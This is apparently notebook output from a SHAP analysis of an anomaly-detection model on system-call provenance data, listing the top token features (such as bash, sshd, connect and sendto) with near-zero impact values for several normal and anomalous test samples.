


🔍 Analyzing [ANOMALY] | Test Index: 44924
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
                bash           -0.000001
          executable           -0.000001
               sleep           -0.000001
            procstat           -0.000001
                read           -0.000000
             execute           -0.000000
               fcntl           -0.000000
                sshd           -0.000000
           attribute           -0.000000
             rewrite           -0.000000
              master           -0.000000
             trivial           -0.000000
             network           +0.000000
               lseek           +0.000000
               inetd           +0.000000
                head           +0.000000
               event           +0.000001
                 and           +0.000001
              alpine           +0




🔍 Analyzing [ANOMALY] | Test Index: 44930
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
                  25           -0.000001
                bash           -0.000001
          executable           -0.000001
               sleep           -0.000001
               write           -0.000000
                 155           -0.000000
                  48           -0.000000
                read           -0.000000
               close           -0.000000
       create_object           -0.000000
                link           -0.000000
                 127           +0.000000
                sshd           +0.000000
                head           +0.000000
              alpine           +0.000001
               event           +0.000001
               inetd           +0.000001
                 and           +0.000001
                  80           +0




🔍 Analyzing [NORMAL] | Test Index: 33378
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
          executable           -0.000000
                bash           -0.000000
           attribute           -0.000000
               write           -0.000000
               sleep           -0.000000
                cron           -0.000000
                  sh           -0.000000
             trivial           -0.000000
             rewrite           -0.000000
    change_principal           -0.000000
                mmap           +0.000000
              master           +0.000000
                  mv           +0.000000
               smtpd           +0.000000
                sshd           +0.000000
              sysctl           +0.000000
                head           +0.000000
              alpine           +0.000000
               inetd           +0.




🔍 Analyzing [NORMAL] | Test Index: 28977
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000003
               sleep           -0.000000
          executable           -0.000000
                bash           -0.000000
           attribute           -0.000000
                  sh           -0.000000
             trivial           -0.000000
             rewrite           -0.000000
                cron           -0.000000
              vmstat           -0.000000
               mlock           -0.000000
                 and           +0.000000
              master           +0.000000
               smtpd           +0.000000
                sshd           +0.000000
              sysctl           +0.000000
                mmap           +0.000000
              alpine           +0.000000
                head           +0.000000
               inetd           +0.




🔍 Analyzing [NORMAL] | Test Index: 24438
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
          executable           -0.000000
                bash           -0.000000
           attribute           -0.000000
               write           -0.000000
               sleep           -0.000000
                cron           -0.000000
                  sh           -0.000000
             trivial           -0.000000
             rewrite           -0.000000
    change_principal           -0.000000
                mmap           +0.000000
              master           +0.000000
                  mv           +0.000000
               smtpd           +0.000000
                sshd           +0.000000
              sysctl           +0.000000
                head           +0.000000
              alpine           +0.000000
               inetd           +0.




🔍 Analyzing [NORMAL] | Test Index: 10608
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000003
              vmstat           -0.000001
                 env           -0.000000
               sleep           -0.000000
                cron           -0.000000
          executable           -0.000000
           attribute           -0.000000
                bash           -0.000000
               mlock           -0.000000
             trivial           -0.000000
             rewrite           -0.000000
             network           -0.000000
                mmap           +0.000000
               event           +0.000000
               smtpd           +0.000000
              sysctl           +0.000000
                sshd           +0.000000
                head           +0.000000
              alpine           +0.000001
               inetd           +0.




🔍 Analyzing [NORMAL] | Test Index: 34654
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 sed           -0.000002
          executable           -0.000000
                bash           -0.000000
               sleep           -0.000000
               write           -0.000000
           attribute           -0.000000
                cron           -0.000000
                  sh           -0.000000
             trivial           -0.000000
             rewrite           -0.000000
             process           -0.000000
               login           -0.000000
                mmap           +0.000000
                  mv           +0.000000
               smtpd           +0.000000
              sysctl           +0.000000
                sshd           +0.000000
                head           +0.000000
              alpine           +0.000000
               inetd           +0.




████████████████████████████████████████████████████████████████████████████████
🚀 PROCESSING SHAP FOR PERFORMER: CLEARSCOPE
████████████████████████████████████████████████████████████████████████████████

🔍 Analyzing [ANOMALY] | Test Index: 2427
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 157           -0.000002
              system           -0.000001
                mmap           -0.000001
                  ui           -0.000001
                ffff           -0.000001
                 103           -0.000000
             connect           -0.000000
                read           -0.000000
               latin           -0.000000
                 169           -0.000000
                 dup           -0.000000
                open           +0.000000
                  70           +0.000000
             process           +0.000000
       create_object           +




🔍 Analyzing [ANOMALY] | Test Index: 2428
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 157           -0.000002
              system           -0.000001
                mmap           -0.000001
                  ui           -0.000001
                ffff           -0.000001
                 103           -0.000000
             connect           -0.000000
                read           -0.000000
               latin           -0.000000
                 169           -0.000000
                 dup           -0.000000
                open           +0.000000
                  70           +0.000000
             process           +0.000000
       create_object           +0.000000
               acore           +0.000000
               write           +0.000000
              sendto           +0.000001
                 and           +0.000001
               event           +0.




🔍 Analyzing [ANOMALY] | Test Index: 2423
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 157           -0.000002
              system           -0.000001
                mmap           -0.000001
                  ui           -0.000001
                ffff           -0.000001
                 103           -0.000000
             connect           -0.000000
                read           -0.000000
               latin           -0.000000
                 169           -0.000000
                 dup           -0.000000
                open           +0.000000
                  70           +0.000000
             process           +0.000000
       create_object           +0.000000
               acore           +0.000000
               write           +0.000000
              sendto           +0.000001
                 and           +0.000001
               event           +0.




🔍 Analyzing [ANOMALY] | Test Index: 2429
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 157           -0.000002
              system           -0.000001
                  ui           -0.000001
                ffff           -0.000001
             connect           -0.000000
                 103           -0.000000
                 dup           -0.000000
                read           -0.000000
                 169           -0.000000
               latin           -0.000000
             mozilla           -0.000000
                link           -0.000000
  fennec_firefox_dev           -0.000000
             process           +0.000000
               write           +0.000000
               acore           +0.000000
              sendto           +0.000000
       create_object           +0.000000
                 and           +0.000001
               event           +0.

